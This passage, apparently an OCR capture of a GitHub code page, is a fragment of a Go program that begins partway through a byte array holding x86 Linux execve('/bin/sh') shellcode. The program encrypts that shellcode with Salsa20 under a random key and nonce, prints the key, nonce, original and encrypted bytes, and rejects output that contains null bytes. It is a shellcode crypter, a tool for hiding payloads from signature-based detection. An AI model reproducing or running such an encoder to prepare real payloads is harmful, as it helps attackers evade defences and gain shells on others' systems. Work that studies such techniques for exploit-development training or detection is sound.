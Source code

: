 ```golang
            0x89, 0x76, 0x08, 0x89, 0x5e, 0x0c, 0x8d, 0x1e,
            0x8d, 0x4e, 0x08, 0x8d, 0x56, 0x0c, 0x31, 0xc0,
            0xb0, 0x0b, 0xcd, 0x80, 0xe8, 0xe1, 0xff, 0xff,
            0xff, 0x2f, 0x62, 0x69, 0x6e, 0x2f, 0x73, 0x68,
            0x41, 0x42, 0x42, 0x42, 0x42, 0x43, 0x43, 0x43,
            0x43 }

    out := make([]byte, len(in))

    // Generate a random 24 bytes nonce
    nonce := make([]byte, 24)
    if _, err := rand.Read(nonce); err != nil {
            panic(err)
    }

    // Generate a random 32 bytes key
    key_slice := make([]byte, 32)
    if _, err := rand.Read(key_slice); err != nil {
        panic(err)
    }
    var key [32]byte
    copy(key[:], key_slice[:])

    fmt.Printf("Key len: %d bytes\n", len(key))

    fmt.Printf("Key: ")
    for _, element := range key {
        fmt.Printf("%#x,", element)
    }
    fmt.Printf("\n")

    fmt.Printf("Nonce: ")
    for _, element := range nonce {
        fmt.Printf("%#x,", element)
    }
    fmt.Printf("\n")

    fmt.Printf("Original shellcode: ")

    for _, element := range in {
            fmt.Printf("%#x,", element)
    }
    fmt.Printf("\n")
    salsa20.XORKeyStream(out, in, nonce, &key)

    fmt.Printf("Encrypted shellcode: ")
    for _, element := range out {
        fmt.Printf("%#x,", element)
    }
    fmt.Printf("\n")

    for _, element := range out {
        if element == 0 {
            fmt.Printf("##########################\n")
            fmt.Printf("WARNING null byte detected\n")
            fmt.Printf("##########################\n")
            os.Exit(1)
        }
    }
}
```
